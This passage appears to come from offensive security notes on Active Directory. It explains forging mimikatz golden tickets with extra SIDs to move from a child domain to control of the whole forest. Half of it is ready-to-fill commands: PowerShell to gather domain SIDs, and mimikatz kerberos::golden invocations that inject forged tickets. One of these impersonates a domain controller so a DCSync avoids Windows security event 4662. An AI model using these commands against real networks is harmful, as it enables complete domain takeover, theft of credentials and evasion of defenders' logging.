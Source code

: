 ###### Jumps Kerberos Golden tickets

The `mimikatz`'s `kerberos::golden` module can be used to generate `golden
tickets` that may include arbitrary `extra SIDs` as well as arbitrary `group
identifiers`. A golden ticket for the current domain can be generated, using
one of the secrets of the current domain's `krbtgt` account, to include `SIDs`
or `group identifiers` related to the root domain of the forest. The specified
`SIDs` and / or `group identifiers` will, respectively, populate the
`ExtraSids` and `GroupIds` fields of the ticket's `Privilege Attribute
Certificate (PAC)`. For example, specification of the `SID` of the `Enterprise
Admins` group (`S-1-5-21-<ROOTDOMAIN_ID>-519`) will effectively impersonate
membership to the group and grant full access to the domains in the forest.  

Through this level of privileges, the secrets of the `krbtgt` account can be
retrieved through  `DRSUAPI` replication functions, attack known as `DCSync`,
or extracted from the Active Directory database `ntds.dit` after exfiltration
from a Domain Controller. The secrets of `krbtgt` account can then further be
used to craft `Golden tickets` for the root domain of the forest. For more
information, refer to the `[ActiveDirectory] ntds.dit dumping` and
`[ActiveDirectory] Golden Tickets` notes.  

```
# Retrieves the FQDN and SID of the current domain for the /sid:<CHILD_DOMAIN_SID> parameter.
Get-ADDomain | Ft Name,DNSRoot,DomainSID
Get-ADDomain -Server <DC_IP | DC_HOSTNAME> -Credential <PSCREDENTIAL> | Ft Name,DNSRoot,DomainSID

# Retrieves the SID of the root domain of the forest, for any /sids:<IMPERSONATED_SIDS>.
Get-ADForest | Ft RootDomain
Get-ADForest -Server <DC_IP | DC_HOSTNAME> -Credential <PSCREDENTIAL> | Ft RootDomain
Get-ADDomain <ROOTDOMAIN> | Ft Name,DistinguishedName,DomainSID
Get-ADDomain -Server <DC_IP | DC_HOSTNAME> -Credential <PSCREDENTIAL> <ROOTDOMAIN> | Ft Name,DistinguishedName,DomainSID

# /sids:<IMPERSONATED_SID | LIST_IMPERSONATED_SIDS>: SID, or comma-separated list of SIDs, to add in the "ExtraSids" field of the crafted ticket's PAC.
# For example, to impersonate membership to the "Enterprise Admins" group: /sids:S-1-5-21-<ROOTDOMAIN_ID>-519
# /ptt: Injects the ticket directly in the current session.
mimikatz # kerberos::golden /user:<IMPERSONATED_USERNAME> [/rc4:<CHILD_DOMAIN_KRBTGT_NTLM> | /aes128:<CHILD_DOMAIN_KRBTGT_AES128> | /aes256:<CHILD_DOMAIN_KRBTGT_AES256>] /sid:<CHILD_DOMAIN_SID> /domain:<CHILD_DOMAIN_FQDN> /sids:<IMPERSONATED_SID | LIST_IMPERSONATED_SIDS> /ptt

# Impersonates an Enterprise domain controller to conduct DCSync attack with out raising Windows Security events
"Event 4662: An operation was performed on an object".
# /sids:<IMPERSONATED_SIDS>: S-1-5-21-<ROOTDOMAIN_ID>-516,S-1-5-9
# S-1-5-21-<ROOTDOMAIN_ID>-516: SID of the "Domain Controllers" group of the root domain.
# S-1-5-9: SID of the "Enterprise Domain Controllers" group.
mimikatz # kerberos::golden /user:<CHILD_DOMAIN_DC_NAME$> [/rc4:<CHILD_DOMAIN_KRBTGT_NTLM> | /aes128:<CHILD_DOMAIN_KRBTGT_AES128> | /aes256:<CHILD_DOMAIN_KRBTGT_AES256>] /sid:<CHILD_DOMAIN_SID> /domain:<CHILD_DOMAIN_FQDN> /id:<CHILD_DOMAIN_DC_SID> /groups:516 /sids:S-1-5-21-<ROOTDOMAIN_ID>-516,S-1-5-9 /ptt
```
